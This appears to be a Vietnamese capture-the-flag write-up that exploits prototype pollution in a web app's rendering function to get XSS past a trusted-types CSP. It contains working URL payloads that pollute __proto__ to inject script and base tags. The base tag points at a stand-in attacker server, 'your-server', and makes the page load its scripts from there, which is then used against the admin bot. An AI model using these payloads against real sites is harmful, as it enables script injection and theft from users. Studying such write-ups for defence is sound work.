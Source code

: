![image](https://hackmd.io/_uploads/rkuQBAulgx.png)
HỪm lại gì nữa đây ?
Như ta thấy ở trên Phần `replaceAllProps` nó gọi đệ quy nên sẽ là vô tận bởi vì `children ` luôn luôn được định nghĩa, Nhưng có vẻ là sắp đúng r
`pollute` vào `__proto__` chỉ cần làm 1 lần

```php!
http://localhost:8000/index
  ?__proto__[children][0][tag]=script
  &__proto__[children][0][attributes][src]=a
  &__proto__[children][length]=1
  &__proto__[children][0][children]=0
```

![image](https://hackmd.io/_uploads/S18-d0uegg.png)
Auke đã xong

```php!
reply.header(
  "content-security-policy",
  `require-trusted-types-for 'script'; trusted-types 'none'`
);

```

tuy nhiên `script` không thực sự thực thi được do content security policy (csp)
Vậy thay bằng `<base>`

```php!
http://localhost:8000/
  ?__proto__[children][0][tag]=base
  &__proto__[children][0][attributes][href]=https://your-server
  &__proto__[children][length]=1
  &__proto__[children][0][children]=0
```

Thẻ base sẽ khiến cho việc load script từ server của attaker trước url thực sự cần load
![image](https://hackmd.io/_uploads/Skeu90uexx.png)
Vậy nên ta tiêm `<base href="https://your-server">` trước `<script src="/scripts/routing.js"> ` , chúng sẽ load `https://your-server/scripts/routing.js,` bypass được qua csp
giờ sẽ launch 1 con server chứa payload `fetch` lên
![image](https://hackmd.io/_uploads/rJDS91Yxge.png)
![image](https://hackmd.io/_uploads/BkgU5Jtgle.png)

ok giờ đây mình ấn cái gì vào trang web cũng chuyển đến server mình => có nghĩa là nó thực sự đã render server của mình trước những đường url khác
![image](https://hackmd.io/_uploads/Byi25kYege.png)
![image](https://hackmd.io/_uploads/ByZJ3yFele.png)

Như vậy đã XSS thành công
bởi vì prototype pollution vẫn còn đó nên xss vẫn còn đó => giờ đưa url lên con bot
ở local không lấy được vì regex đang check cùng tên miền
đây là payload trong thực tế
